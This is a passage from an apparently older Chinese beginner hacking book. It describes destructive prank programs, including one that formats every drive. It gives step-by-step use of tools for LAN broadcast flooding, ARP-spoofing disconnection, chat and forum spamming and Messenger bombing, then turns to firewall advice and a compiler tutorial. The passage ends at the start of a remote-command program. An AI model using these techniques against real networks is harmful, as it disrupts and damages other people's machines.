> **提示**：本程序可能会很恐怖，尤其可能造成严重后果。千万不要让胆小者以及有心脏病或癫痫患者运行本程序！否则后果自负！还要注意的是：本程序是 VB6 编的，如果你运行不了，需要下载 msvbvm60.dll 文件到你电脑的 Windows 目录下。

## 4. FUHD

危害度：★★★★

这是一个垃圾文件生成器，程序运行后会在各磁盘（C:-H:）的每一个根目录、第一级子目录和第二级子目录生成随机文件名的垃圾文件，直到把所有磁盘空间塞满为止。

虽然现在很多人都有大硬盘，但是大量垃圾文件分布在各个目录中，也是一件很麻烦的事。而且目录中含有过多文件，会大大减慢系统速度。以前有个软件 hdfill.exe 功能与它很相似，但是该 hdfill 需要 VB4 运行库才能运行，在没有 VB4 运行库的机器中不能运行。而该程序是用 VB5 编写的，虽然也存在运行库问题，但 Win98 中已经带有 VB5 运行库，所以该程序可以在许多电脑中运行成功。也就是说许多朋友都有中招的可能和危险！


图4

作为恶作剧软件，它的危害不大。但如果不知道解除方法，也很讨厌。FUHD 压缩包由四个文件组成：FUHD.exe（大小 10752 字节），作用是直接在磁盘上生成垃圾文件，程序在后台运行，全过程没有任何提示；setup.exe（大小 10752 字节），运行后在后台生成垃圾文件；readme.txt 是说明文件。

还有一个是 Undo.exe，如图 4，大小 6656 字节，这是作者提供的删除上面两个 EXE 生成的垃圾文件的工具。如果你中招了，可以找来该文件，运行后就可以清除那些垃圾文件。

## 5. SEX.EXE

危害度：★★★★★

SEX.EXE（恶作剧之王）是个恶意程序，前面提到的几个恶意程序和它相比，简直是小巫见大巫！前面介绍的那几个程序有一点好处，它们都不破坏硬盘数据。但恶作剧之王就不同了，如果你处理不当，它就会格式化你的硬盘，使你所有资料都被删除！


图5

它的主程序为 SEX.EXE，大小 215K，图标为一个女人头像。运行主程序后，屏幕中心会出现一个右眼被黑眼罩蒙住的“克林顿海盗头像”，如图 5，旁边有两行字：“不要摸我的左眼，否则你会后悔的！”。如果你把鼠标移动到它左眼上时，你的厄运开始了：程序向 `C:\Windows\Temp\Vbe` 下复制一个副本文件 Sex.exe，然后向 Autoexec.bat 中写入快速格式化命令，从最后一个盘符起，从 Z 盘开始到 C 盘一个不留。还会锁定你的鼠标，只要你按回车，便立刻重启并切换到 DOS 格式化（主要是因为在 Windows 下无法格式化 C 盘）。在程序退出之前，自动执行一次 Autoexec.bat，此时已经开始格盘了！当到了系统所在分区，就重启机器。重新启动后，开始在纯 DOS 下再一次格盘，而且还使用了快速格式化命令，即便你的系统中的 Format.com 早已被删除也没用，因为程序会检测是否存在 Format.com，如果不存在就生成一个。程序在运行后就锁定了系统功能键和鼠标，同时修改 msdos.sys 文件，加入 `BootKeys=0` 这一行，目的是使 F4、F5、F8 这些功能键在启动时无效。如果没碰到头像的眼睛，就不会激活格式化功能，因此就不会有什么事了。

这是个非常恶毒可怕的东西，大家要小心防范它。如果你一旦发现这种“海盗克林顿”头像，什么都不要做，直接按机箱上的 RESET 键重新启动，删除 `%TEMP%\VBE\SEX.EXE` 即可。如果你的鼠标已经点在它左眼上了，那就立即关机（1 秒钟都不要犹豫），由 A 盘启动，并检查 C 盘是否被格式化；如果没有被格式化，可以删除 Autoexec.bat 和 `C:\Windows\Temp\Vbe` 下的 SEX.EXE，然后进入 Win98 就可以了。如果已经被格式化了，大家可以用这几个工具软件修复你的硬盘：

```text
for Win98: http://www.chinesehack.org/soft/fire/Recover98.zip

for WinNT/2000: http://www.chinesehack.org/soft/fire/RecoverNT.zip
```

#### 三、局域网攻击

局域网是在一定规模地理区域内，依靠具有中等到较高数据率的物理通信网络构成的网络。这种网络具有误码率低、速度快等特点，所以局域网被很多组织机构使用。局域网虽然有许多优点，但其安全不容忽视。许多单位、学校的局域网只是简单地用集线器和网线一连就成了，没有防火墙，也不设置路由规则。如果黑客在这些局域网内部发动攻击，那比在互联网发动攻击容易千百倍。不信我们可以看看下面几个攻击例子。

## 1. “盛开”轰炸

现在不少网吧和学校机房的计算机还依然在用 Windows 98 操作系统，这种个人操作系统极其“脆弱”，使用一种我们前面讲过的 IP 炸弹 IGMP 攻击就可以使它网络出错或者系统瘫痪。而且在局域网里完全不用一台一台地攻击，只要利用“本网广播地址”255.255.255.255 来向网内所有 Win98 系统开炮即可。

先找一个“厉害”点的 IP 攻击工具，比如 dk_boomer.exe 就不错。它是一个多线程攻击工具，最多可以开 10 个线程进行攻击。打开程序，如图 1，填入 IP 地址：**255.255.255.255**，然后填入端口（139 不错），还有次数和线程数（别太狠了）。注意：关键来了！别忘了你自己也在局域网，如果你直接这样开始攻击，那你自己的 Win98 也会“英勇牺牲”了。

所以你使用的系统最好是 Win2000 或 XP，如果是 Win98，那你得先做好防护工作，安装个天网之类的个人防火墙，把 139 端口封了。


图1

接着就可以“开始攻击”了，很快局域网内的 Win98 系统会大片大片地出现“蓝屏”现象或者瘫痪，又或是网络出错、无法连接等等。如果你再多攻击几次，结果不想而知了吧，很可怕！不过这种方法只能对付脆弱的 Win98，对 Win2000/XP 是不行的，不过我们接着往下看，Win2000/XP 也不能幸免。

> **提示**  
> TCP/IP 规定，主机号全为“1”的网络地址用作广播之用，即作广播地址。TCP/IP 又规定，32 比特全为“1”的网间网地址也用于本网广播，该地址可作有限广播地址（limited broadcast address），这个地址换成十进制就是 255.255.255.255。所谓广播，指向同网络上所有主机发送报文。注意：这种广播只能在没有进行过滤的局域网内进行，互联网是不可能的。

## 2. IP 冲突攻击

什么是局域网中 IP 地址冲突攻击呢？我们知道在 Internet 和 Intranet 网络上使用 TCP/IP 协议时，每台主机必须具有独立唯一的 IP 地址。有了 IP 地址的主机才能与网络上的其他主机进行通信，如果有两台计算机在网络上同时使用同一个 IP 地址时，就会发生 IP 地址冲突。IP 地址冲突造成了很坏的结果：网络客户不能正常工作，因为只要存在冲突、只要电源打开，在客户机上就会频繁出现地址冲突提示。

在一般情况下，只有在两台机器同用一个 IP 地址时才会发生 IP 冲突，但如果通过发送特殊构造的 ARP 欺骗数据包，能使目标主机以为发现了 IP 冲突而不断跳出 IP 地址冲突提示，从而不能正常工作。我们还是先来大致了解一下 ARP 攻击原理。

ARP（Address Resolution Protocol）地址解析协议，具体讲就是将网络层（IP 层）地址解析为数据链路层的 MAC 地址。我们知道广域网具有层次体系的 IP 协议来进行通信，可是具体到各个局域网又如何辨别各个主机呢？在局域网里主机是通过 MAC 地址进行通信的。假如有主机 A（192.168.0.1:abc111111111）和 B（192.168.0.2:abc222222222），当主机 A 想与主机 B 通信时，A 只知道 B 的 IP 地址是 192.168.0.2，当数据包封装到 MAC 层时它如何知道 B 的 MAC 地址呢？一般 OS 中是这样做的：在 OS 内核中保存一份 MAC 地址表（`arp -a` 可以看见这个表内容），表中有 IP 和 MAC 地址对应关系。当要进行通信时，系统先查看这个表中是否有相关 IP 的表项，如果有就直接使用；如果没有，系统就会发出一个 ARP 请求包。这个包的目的地址为广播地址，它的作用就是询问局域网内 IP 地址为 192.168.0.2 的主机的 MAC 地址。它向局域网中每台机器都发送包含这样一个问题的数据包：“我在找一个 IP 地址为 192.168.0.2 的主机，你的 MAC 地址是多少，听到了请回话！我的 MAC 地址是 abc111111111。”只有 IP 为 192.168.0.2 的 B 才会响应一个 ARP 应答包给主机 A，它说“我是 192.168.0.2，找我有啥事吗，我的 MAC 地址是 abc222222222”。这下主机 A 就知道 B 的 MAC 地址了，于是它就可以封包发送了，同时主机 A 将 B 的 MAC 地址放入 ARP 缓冲中，隔一定时间将其删除，确保不断更新。

在这个过程中，如果主机 A 在发送 ARP 请求时，假如该局域网内有一台主机 C 的 IP 和 A 相同，C 就会得知有一台主机的 IP 地址同自己的 IP 地址相同，于是就会跳出一个 IP 冲突对话框。这也就是说，一个主机接收到与自己相同 IP 发出的 ARP 请求，就会跳出一个 IP 冲突提示框。所以只要我们伪造某主机的 IP 向局域网发 ARP 请求，或者不停发送，同时自己的 MAC 也是伪造的，那就可以造成 IP 冲突攻击了。


图2


图3

robip.exe 就是一个 IP 冲突攻击工具，如图 2。本软件的作用是使被攻击机器不停弹出 IP 地址冲突对话框，但前提条件是攻击机和被攻击机必须在同一局域网内。使用平台为：Windows 98、Windows 2000、Windows XP、Windows 2003。使用时把压缩包解压到一个目录下，先要安装随程序带来的 WinPcap，如图 3。

WinPcap 是 Win32 平台上网络分析和捕获数据包的驱动库，安装 WinPcap 后才可以使用 robip.exe。运行 robip.exe，开始时会要你选择网卡，你可以每个都试一试，看看哪一个是正确的。

接着填入要攻击的 IP 地址以及攻击次数、攻击时间间隔等。单击“开始攻击”按钮就行了，对方主机会不断跳出 IP 地址冲突提示，如图 4。这个提示跳出后什么也干不了，一定要点确定才行，不过那时我们的第二次攻击已经到了。攻击开始后，这机子除了拔掉网线或断电，别的基本没办法了，很绝吧！而且这种 IP 冲突攻击即使对方有防火墙也无济于事。


图4

## 3. 局域网杀手

前面我们介绍了利用 ARP 发动 IP 冲突攻击；其实 ARP 数据包欺骗不仅可以用来进行 IP 冲突攻击，它还可以充当局域网里的“杀手”，把你不喜欢的任何 Win98/2000/XP 主机（只要它和你的主机在同一网内）从局域网上踢除，让它上不了网。

从前面介绍的 ARP 地址解析协议过程我们知道，主机接收到一个 ARP 请求包后，就会把这个包中的信息放入它的 ARP 表中。如果我们以一个局域网网关或代理服务器等任意一台不想让 B 访问的机子 IP 的身份，用一个不存在的 MAC 地址向 B 发送 ARP 应答报文，也就是说我们冒充网关不停地给主机 B 发送 ARP 应答报文。报文内容是：“我是网关 192.168.0.1，找我有啥事吗，我的 MAC 地址是 abc222222222（根本不存在）。”这样主机 B 的 ARP 表中的网关 MAC 地址永远是不存在的，它当然别想再上网了（有关详细 ARP 欺骗原理分析资料见光盘）。

网络执法官就是一个用于构造虚假 ARP 包来欺骗网络主机，使被指定主机从网络中断开的程序，如图 5。此程序只对以路由作为划分的同一局域网内主机有效，不能对网关或路由器外的机器进行监视或管理。只需在一台机器上运行，可穿透防火墙，实时监控、记录整个局域网用户上线情况；它可以限制大批用户上线，对某 IP 段进行封锁，也可以将某个用户踢下局域网。


图5

Lankiller 也是一个此类攻击工具，如图 6。先搜索一下网内主机，只要将目标主机“禁止上网”即可。如果要对局域网内所有主机都禁止，可以选“全部禁止”。退出程序或将其设为允许上网后，目标主机将在 30～60 秒后恢复正常工作。


图6

这类攻击程序还有很多，如网络执法官、网络尖刀手、网络终结者等等，不一一讲解了。有兴趣的朋友自己慢慢试吧。注意这类攻击危害较大，请谨慎使用。

#### 四、捣蛋绝技

### 1. 聊天室刷屏

你是否在聊天室或 IRC 频道中遇到一些对你纠缠不休、脏话连篇的家伙？聊天室刷屏绝技能帮你对付这些讨厌的家伙，刷得他们开不了口。最简单可以用 Ctrl+V 快捷键复制内容来进行刷屏，当然这样手工刷屏会累死人，我们可以借助一些小程序。

第一个程序：chatbomb.exe。这是一个非常不错的“专业”级刷屏程序，如图1。它可以自己指定刷屏的内容，重复发送这句话。因为聊天室里不允许发送重复的话，所以它每次发送时会在这句话后面自动加一个数字，避免重复。


它还可以选择使用程序带来的语录，包括“随机字符、废话、脏话、情话”四大类，这四类的具体内容可以在“设置”中进行修改。比如它的废话库中有许多有趣的话：“网管变成一头又肥又壮的猪，一鼻子把俺拱出了聊天室。网管网管你别急，聊天灌水不稀奇；网管网管你别忧，玩了这通我就溜！”在情话中，还可以指定发送的对象，如图2。

接着还可以设置刷屏速度和刷屏次数。现在的大多数聊天室里都对发话的时间间隔做了限制，发得太快会被封掉，所以速度不能太快，至于次数随你喜欢。点击“开始”按钮后，把窗口切换到聊天室窗口，并把光标输入焦点放到聊天室发话的输入栏里，稍等一下程序就会开刷了，如图3。


第二个程序：snowdan.exe。这是一个不错的刷屏工具，如图4。


它可以重复刷同样的一句话，也可以选择要刷的文件。程序也附带了许多刷屏内容的文件，比如 love.txt 是一个很感人的爱情故事。刷屏时间间隔最好按照程序默认的，一般情况下不需要修改。设置完毕后点击“开刷”按钮，接着请把光标输入焦点切换到聊天室输入栏，下面的事就看程序给你表演了。

其它的聊天室刷屏工具还有很多，不过其主要功能都类似，这里就不一一讲解了。

### 2. 论坛灌水

上面我们介绍了聊天室刷屏，而“在论坛里灌水”也是菜鸟朋友们常玩的把戏。我们来看看这些无聊的菜鸟们是如何在论坛上贴满他们的“宣言”的。

我们知道现在网上的论坛大多是基于网页的了，它们是用各种脚本编写的 CGI 程序。利用这点，有人编写程序，恶意重复发帖请求过程，从而提交大量的垃圾帖子。

bbspost.exe 就是一个被称为论坛灌水王的灌水工具，如图5。目前它支持的论坛有：k666 论坛、霍傲论坛、落伍者论坛、碧晴影视论坛、荷里活论坛等。它可以把一篇帖子发到不同的版面。


使用方法：先打开你要灌水的论坛网页。由于现在只有少数论坛允许发匿名帖子，大多数论坛需要登录后才能发帖子，所以先要申请一个论坛用户才能使用。然后修改程序带来的 data 目录下相应论坛目录（注意要事先弄清到底是哪些论坛，可以比较发帖的网页）中的 Reg.txt 文件，把 `=` 后面换成你自己的用户名及密码即可：

例：

```txt
username=小虫
password=88888888
```

如果不修改此项，论坛将无法接受你发的新帖（验证）。

- 打开程序
- 选择论坛类型（可多选）
- 选择版块（如有多个论坛，请务必每个论坛至少选择一个版块）
- 填写帖子内容
- 发送

### 3. Win2000 消息轰炸

Windows NT/2000 中带有一个叫“Messenger”的服务，它用于 NT 服务器之间发送和接收系统管理员或者“警报器”服务传递的消息，这个服务在系统默认安装时就是自动启动的。


通常情况下可以通过 NET SEND 命令，或者通过“计算机管理”→“所有任务”→“发送控制台消息”向开放了 Messenger 服务的目标计算机发送消息，如图6。不过这样每次只能发送一条消息到一台计算机，达不到轰炸的目的。有人就写了类似的程序，这些程序可以对某台计算机重复发送几十、几百次同一条消息进行轰炸，如图7。

也可以对某个 IP 段内的所有 NT 服务器都发送消息进行轰炸。还可以使用 IP 列表，这样能实现对所有探测成功的用户进行群发消息的功能（使用此功能时在“使用IP列表”前打钩）。你还可以根据自己的要求填写：发送信息内容、发送次数等。


图8

> **100%绝杀** 如果你不使用这个 Messenger 服务，建议你关闭它。打开“服务”管理工具，找到“Messenger”服务，停止它，并在“启动类型”中“禁用”它，如图9。


图9

MSGghost.EXE（凶宝室消息精灵）就是这样一个程序，如图8。它可以运行于 Win NT/2K/XP，可以在知道对方 IP 的条件下直接向 NT 系统中没有安装过任何聊天工具的用户发送消息。

### 第五节 安全防护

#### 一、自我安全防护

随着各种黑客神话被炒作，越来越多的年轻人对黑客技术感兴趣。虽然大多数年轻人是致力于技术和漏洞的研究，但也有不少人，特别是新手，常常利用刚学得的一些简单黑客技术和黑客工具对普通用户实施攻击。而且近年网络攻击者人数猛增，许多人拿着木马、炸弹之类的工具到处乱黑一气，许多用户无辜受害。本章前几节就揭露了一些菜鸟黑客们的攻击伎俩，大家已经有所了解。在这一节中我们将介绍一些个人用户的基本防黑措施。

- 1. 不要执行陌生、可疑的文件，也不要访问可信度不高的小网站。谁知道这些网站是不是含有恶意代码，提供的程序是不是携带病毒和木马。平时还要注意文件大小，如果你发现 600K 的文本文件图标时，那你应该小心了，这有可能是被改了图标的程序。最好让 Windows 显示文件后缀，打开“文件夹选项”查看，把“隐藏已知文件类型的扩展名”前的勾去掉（如图1）。


图1

- 2. 安装杀毒软件。安装一个好的杀毒软件，定期对整个系统进行检测、清除工作。在这样的病毒横行的网络里，优秀的杀毒软件有很多，国外的诺顿、趋势等，国产的金山毒霸、瑞星、KV3000 等（如图2）。而且这些杀毒软件都支持在线升级，可以不断更新病毒库，查杀最新的病毒和木马等黑客程序。当然杀毒软件不是万能的，许多木马可能没有列入病毒库，所以还可以使用木马查杀软件检查系统，如 Iparmor、Cleaner。如果发现中了木马，可以寻找相应的清除方法加以清除。


图2

- 3. 系统补漏。无论是 Windows 操作系统还是 UNIX 操作系统都不可避免地存在安全漏洞，现在每天都有新的安全漏洞被发现。所以平时还应该经常去软件供应商的网站关注这些信息，及时下载、安装漏洞补丁程序以及封堵已知的安全漏洞。比如微软就专门有一个安全公告版块来公布这些漏洞信息和补丁情况。

www.microsoft.com/technet/security/，如图3。此外也可以使用一些安全扫描器对你自己的系统进行自我扫描，看是否存在安全漏洞。


图3

- 4. 安装个人防火墙软件。对于个人用户来说，安装硬件防火墙一般是没有条件也没有必要的。一般个人用户安装的都是防火墙软件，这些防火墙软件能对用户的系统实现实时安全防护：对内能防止某些异常程序进行“非法”活动，对外能抵御大部分的网络攻击，能大大提高用户的网络安全。

目前主要常见的国产个人防火墙软件有如下几种：“天网防火墙”“证盾防火墙”“东方卫士”“金山网镖”“瑞星个人防火墙”“江民反黑王”等，如图4。这些防火墙软件的功能都比较相似，具体使用功能我们后面会提到。


图4

- 5. 备份系统数据。经常备份重要数据，数据是最重要的！操作系统、应用软件等被破坏了不是大要紧，可是自己键入的资料花了你几月几年的时间，结果某一天因为病毒或者黑客等因素这些数据被破坏了，荡然无存，那真是欲哭无泪了，所以对重要数据的备份是绝对必要的。特别是那些喜欢玩黑客软件的朋友，俗话说得好：“常在河边走，哪能不湿鞋”，有些黑客软件里不定就隐藏了颗硬盘炸弹，笔者对此曾有惨痛经历，一定要小心。如果有条件可以把数据备份到别的硬盘或刻录到光盘中去。关于备份软件可以使用 Windows 自带的备份程序，也可使用别的程序，比如 Norton Ghost，如图5。


图5

这是一个快速备份及恢复工具，是备份软件的经典之作，支持 DOS、Windows、NTFS、OS/2、UNIX、LINUX 等多种平台。它可以把系统所在的那个硬盘分区高速复制到另一个分区或硬盘之上，也可以通过网络备份到别的服务器上去。

- 6. 其它防护注意。上网时不要随便在聊天室和论坛上公布你的 Email 地址，不要打开陌生人发来的电子邮件，无论多么诱人的标题或者附件。为 QQ、Email 设置一个安全、复杂的密码，不要将重要密码存放在计算机上。在公共机房上机时更要注意安全，最好能先进行查毒，关闭可疑进程后再使用。必要时，比如遇到黑客攻击时，可以使用代理服务器隐藏你的 IP。个人用户尽量不要在网络上共享自己的硬盘。

目前 Internet 黑客攻击案件数量直线上升，每个人随时都可能遭到各种恶意攻击。这些恶意攻击可能导致的后果是：上网账号被窃取、银行账号被盗用、电子邮件密码被修改、财务数据被利用、机密档案丢失、隐私曝光等等。甚至还有可能被删除硬盘上所有的数据，整个计算机系统全面崩溃。所以作为网络用户，应该掌握这些网络安全防护措施。

#### 二、天网使用详解

“天网（Skynet）”个人防火墙是人们最常用的一款很不错的个人防火墙。它功能强大，具有日志记录功能、应用程序审核、自定义 IP 规则、网络状态监听、系统漏洞检测和补丁提示等功能。它应用简单，普通用户只需默认天网的设置即可达到防御大部分攻击，受到了国内很多个人用户的青睐。下面就来简单介绍一下天网防火墙，了解一下它的各种功能和实际应用。

首先我们需要安装“天网”防火墙个人版，运行于目前所有的 Windows 平台。打开安装程序，选“我接受此协议”，然后一直“下一步”即可完成安装。运行“天网”，显示天网的主界面，如图1。界面很简单，但泾渭分明：左边是功能（应用程序规则、自定义 IP 规则、系统设置），中间是安全级别（低、中、高、自定义），右边是网络选项（应用网络使用情况、日志和网络连接控制）。我们先来看看天网防火墙的设置。


### 1．天网防火墙的安全级别设置

天网防火墙的安全级别设置分为低、中、高，再加上自定义四个。天网第一次运行时会要求用户选择安全级别，默认级别为中，如图2。各种安全级别都有详细说明，可以根据你自己的需要选择。


### 2．系统设置

在防火墙的控制面板中点击“系统设置”按钮即可展开防火墙系统设置面板，如图3。

启动设置：选中开机后自动启动防火墙，天网个人版防火墙将在操作系统启动的时候自动启动，否则天网防火墙需要手工启动。

防火墙自定义规则重置：把防火墙的安全规则全部恢复为初始设置。

应用程序权限设置：选了该选项之后，所有应用程序对网络的访问都默认为通行不拦截。这适合在某些特殊情况下，不需要对所有访问网络的应用程序都做审核的时候。

还可以选择报警声音等。报警声音设置中点击“浏览”，你可以自己选择一个声音文件作为天网防火墙报警声音，也可以单击“重置”采用天网防火墙默认报警声音。


### 3．自定义 IP 规则设置

IP 规则是针对整个系统的网络层数据包监控而设置的。利用自定义 IP 规则，用户可针对个人不同的网络状态，设置自己的 IP 安全规则，使防御手段更加周到、更实用。用户可以点击“自定义 IP 规则”键，或者在“安全级别”中点击进入 IP 规则设置界面，如图4。实际上“天网防火墙个人版”本身已经默认设置了相当好的缺省规则，一般用户并不需要做任何 IP 规则修改，就可以直接使用。关于缺省规则各项的具体意义，我们这里只挑选几项重要的来解释：

- **防御 ICMP 攻击**：选择时，别人无法用 PING 的方法来确定你的存在。ICMP 协议现在也被用来作为蓝屏攻击的一种方法。
- **防御 IGMP 攻击**：IGMP 是用于组播的一种协议，现被用来作为蓝屏攻击。
- **TCP 数据包监视**：通过这条规则，你可以监视机器与外部之间的所有 TCP 连接请求。注意，这只是一个监视规则，开启后会产生大量日志。
- **UDP 数据包监视**：通过这条规则，你可以监视机器与外部之间的所有 UDP 包的发送和接收过程。
- **禁止互联网上的机器使用我的共享资源**：开启该规则后，别人就不能访问你的共享资源，包括获取你的机器名称。
- **允许已经授权程序打开的端口**：某些程序（如 ICQ、视频电话等）会开放一些端口，这样你的同伴才可以连接到你的机器上。

除此之外，你还可以自定义 IP 安全规则以防御新的攻击。前不久 Windows RPC 漏洞攻击盛行，“冲击波”等蠕虫肆虐，我们可以通过“天网”设置新的 IP 安全规则来过滤掉 RPC 漏洞利用的端口：135、139、443 等，只要在 IP 规则里拦截所有 IP 地址中这几个端口的数据包就行了，如图5。不过安全规则的设置是系统最重要、也是最复杂的地方。如果你不熟悉 IP 规则，最好不要调整它，你可以直接使用缺省规则。


### 4. 应用程序访问网络权限设置

天网的应用程序规则是专门用于审核计算机内部应用程序在访问网络时合法性的，它用于防火墙对用户计算机内部应用程序访问网络做审核，如图6，使得潜藏于计算机内部的后门软件或者非法进程无法对用户计算机造成危害。

这种面向应用程序进程的监控方式，可以有效地发现和阻止潜入本地机器的木马；甚至可以发现一些正常程序的不正常动作。

有被天网允许过的程序企图偷偷访问网络，天网就会拦截它并跳出对话框询问你是否允许这个程序访问网络，如图7。


图7


图8

天网防火墙的安装和设置介绍完了，再来看它的应用功能。“天网”主界面的右边有三个应用功能键，分别对应“应用程序网络状态显示”“日志记录”和“接通和断开网络”三大功能。

**接通和断开网络：**如果按下断开/接通网络按钮，那么您的计算机就将完全与网络断开了，就好像拔下了上网线路一样。没有任何人可以访问您的计算机，但您也不可以访问网络。这是在遇到频繁攻击的时候最有效的应对方法。

**应用程序网络状态功能：**这个功能能显示当前计算机所有的网络连接情况、监听端口以及相应程序等详细信息，如图8。你能很容易发现可疑网络连接和可疑进程，并可以结束它们。

**日志记录功能：**天网有着完备的日志记录功能，如图9。它除了能够详尽记录不符合安全规则的访问记录外，还尽可能对记录做一定程度上的解释，使得用户手中的不只是一份协议报告书，而是贴近用户的安全报告。通过这些详尽的日志报告，用户可以随时查看自己的计算机在网络应用上的状况。


图9

总之，“天网”个人防火墙是功能强大且完备的防火墙，新手朋友们安装它可以帮你抵御大部分黑客攻击。其它还有几个人防火墙：“金山网镖”“东方卫士”“江民反黑王”等，使用方法和功能都类似，不一一讲解了。

## 神雕英雄传

打遍白马黑沼上，...

## 第四卷


## 第四章 神兵出世

### 打造自己的黑客工具

### 概述

要想成为一名真正的黑客，编程是必须要面对的。如果你还不会编程，那你还算不上一位真正的黑客，最多也是一位不入流的黑客。所以编程也是我们所必须涉及到的内容。也许有朋友会说，编程太难了！是的，编程确实很难，然而我要对朋友们说的是：难者不会，会者不难。只要我们有信心、有恒心，再加上有科学的学习方法，就一定能把编程学好。而且，其实编程也并不是像我们想象中的那么难，至少修改和编译一些现成的工具代码来为自己所用，并不是那么难的。本章不像某些书一样介绍具体编程语法和罗列大段代码，而是从新手朋友的实际出发，讲述使用一些常用编程工具，教大家如何修改和编译一些网上现成的工具代码和漏洞溢出代码，力求简明易懂，目标是让大家在看完本章之后，十分钟之内就能编译出自己的第一个工具来。当然，更希望大家通过本章学习从此走上编程之路，真正进入编程世界这一浩瀚海洋之中，为中国的网络编出更好的软件，为中国的黑客们打造出更强的利器！

### 第一节 BC++ Builder 打造黑客工具

#### 一、安装和配置

Borland C++Builder 是 Borland 公司 98 年推出的全新 32 位 Windows 开发工具。它结合了 C/C++ 语言所有优点，C++Builder 可以说是很好的 Windows 集成开发工具。除了有方便、灵活的可视化编程界面以外，它还具有功能强大、高效的 Borland C++Builder 编译器。本节的内容主要讲解它的编译器功能。

Borland C++Builder 的编译器可以在图形界面下使用，也可以在 DOS 下使用。


图1

## 打造自己的黑客工具世界

Builder Compiler 5.5 就是一个在命令行下使用的 Borland C++ Builder 编译器。可以用来编译适合 BC 语法的各种代码。并且它是免费使用的，安装包只有 8M 多（本书光盘中有），在网上也很容易下载到，是一个很方便的编译工具，如图1。

在命令行下打 `bcc32` 就可以获得帮助。  
就可以在任意命令行下进行代码编译，输入 `bcc32 -h` 也可以获得帮助。

Borland C++ Builder Compiler 5.5 与 Borland C++ Builder Compiler 5.6 的用法差不多，下面我们以 Borland C++ Builder Compiler 5.5 为例进行讲解（因为它小巧且很容易下载得到）。

Borland C++ Builder Compiler 5.5 的安装很容易，双击安装文件，按照提示一步步进行安装，默认安装位置 `c:\Borland\Bcc55`，如图3。

但是安装好的 Borland C++ Builder Compiler 5.5 要想正常使用，还要进行手工配置才行。

- **在 Win98 系统下：** 将 `path=c:\Borland\Bcc55\bin` 加入到 `autoexec.bat` 中。
- **在 Win2000 系统下：** 右键“我的电脑”->“属性”->“高级”->“环境变量”，如果已经有了 `PATH`，那么将 `c:\Borland\Bcc55\bin` 加上，否则就新建一个 `PATH` 变量。


你也可以安装 Borland C++Builder 6.0，但它比较大，安装好以后有 600 多M，对机器的要求也比较高，是一个 Windows 下的集成开发环境，可以直接对 C++ 代码进行编译，如图2。（Borland C++Builder 6.0 安装好后运行）安装好 Borland C++Builder 6.0 以后，Borland C++Builder 6.0 中也会带有 Borland C++ Builder Compiler 5.6，它和 Borland C++ Builder Compiler 5.5 一样是在 DOS 下使用的编译器，如果在安装时选择了配置环境变量，那么配置好环境变量以后，接下来对 Borland C++ Builder Compiler 5.5 的编译环境进行配置。在 `c:\Borland\Bcc55\bin` 目录下新建两个文件：`bcc32.cfg` 和 `ilink32.cfg`。


在 `bcc32.cfg` 文件中加入：

- `-I"c:\borland\BCC55\Include";`
- `-L"c:\borland\BCC55\Lib";`

用于编译时寻找头文件。

在 `ilink32.cfg` 文件中加入：

- `-L"c:\borland\BCC55\Lib";`

用于链接时寻找库文件。

完成以上配置以后，就可以在命令行下的任意地方用 `bcc32.exe` 编译器来对程序代码进行编译了。

## 三、编译实战

现在让我们来看一下，如何使用 `bcc32.exe` 来编译程序。

### 1、编译 DOS 模式下的程序

新建一个文件名为 `hello.cpp` 的文件，内容如下：

```cpp
#include <stdio.h>
int main()
{
    printf("Hello World");
    return 0;
}
```

在 DOS 窗口下输入 `bcc32 hello` 回车，如图5。


图5

接着运行编译生成的 `hello.exe`，会看到输出结果 “Hello World”，如图6。


图6

说明编译成功！得到的 `hello.exe` 程序运行一切正常。

### 2、编译 Windows 模式下的程序

例（1）：新建一个文件名为 `hellowin.cpp` 的文件，内容如下：

```cpp
#include <windows.h>
#pragma argsused
WINAPI WinMain(HINSTANCE hInstance,
               HINSTANCE hPrevInstance,
               LPSTR lpCmdLine,
               int nCmdShow)
{
    MessageBox(NULL, "Hello World", "", MB_OK);
    return 0;
}
```

在 DOS 窗口下输入 `bcc32 -tW hello` 回车，记住编译 Windows 模式下的程序，一定要用参数 `-tW`，如图7。

双击编译生成的 `hello.exe` 文件，弹出对话框 “Hello World”，如图8。


图7


图8

例（2）：建立一个 Windows 主窗口程序，新建一个文件名为 `window.cpp` 的文件，内容如下：

```cpp
#include <windows.h>
LPSTR lpszAppName = "My first Windows window";
HINSTANCE hInst;
HWND hWnd;
LONG WINAPI WndProc(HWND hWnd, UINT uMsg, WPARAM wParam, LPARAM lParam);

int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPTSTR lpCmdLine, int nCmdShow)
{
    MSG msg;
    WNDCLASS cls;
    cls.hInstance = hInstance;
    cls.lpszMenuName = lpszAppName;
    cls.lpszClassName = lpszAppName;
    cls.hIcon = LoadIcon(NULL, IDI_EXCLAMATION);
    cls.hCursor = LoadCursor(NULL, IDC_ARROW);
    cls.hbrBackground = (HBRUSH)(COLOR_WINDOW + 1);
    cls.style = CS_VREDRAW | CS_HREDRAW;
    cls.lpfnWndProc = (WNDPROC)WndProc;
    cls.cbWndExtra = 0;
    cls.cbClsExtra = 0;
    if (!RegisterClass(&cls)) return FALSE;

    hInst = hInstance;
    hWnd = CreateWindow(lpszAppName, lpszAppName, WS_OVERLAPPEDWINDOW,
                        50, 50, 640, 470, NULL, NULL, hInst, NULL);
    if (!hWnd) return FALSE;

    ShowWindow(hWnd, nCmdShow);
    UpdateWindow(hWnd);
    while (GetMessage(&msg, NULL, 0, 0)) {
        TranslateMessage(&msg);
        DispatchMessage(&msg);
    }
    return msg.wParam;
}

LONG WINAPI WndProc(HWND hWnd, UINT uMsg, WPARAM wParam, LPARAM lParam)
{
    switch (uMsg) {
    case WM_CLOSE:
        DestroyWindow(hWnd);
        break;
    case WM_DESTROY:
        PostQuitMessage(0);
        break;
    case WM_QUERYENDSESSION:
        DestroyWindow(hWnd);
        break;
    default:
        return DefWindowProc(hWnd, uMsg, wParam, lParam);
    }
    return 0;
}
```

在 DOS 窗口下输入 `bcc32 -tW window` 回车。然后双击编译生成的 `window.exe` 文件。弹出程序主窗口 “My first Windows window”，如图9。


图9

经过上面的讲解，大家应该对怎么用 Borland C++ Builder Compiler 编译程序有了一定的了解。下面就让我们来打造自己的第一个黑客程序吧！

新建一个名为 `telcmd.cpp` 的文件，内容如下：

```cpp
#include <stdio.h>
#include <winsock.h>
#define USE_MINIMAL_SIZE
#define PORT 9999
// make this high enough that most of the data can be read at once
#define BUFSIZE 8192
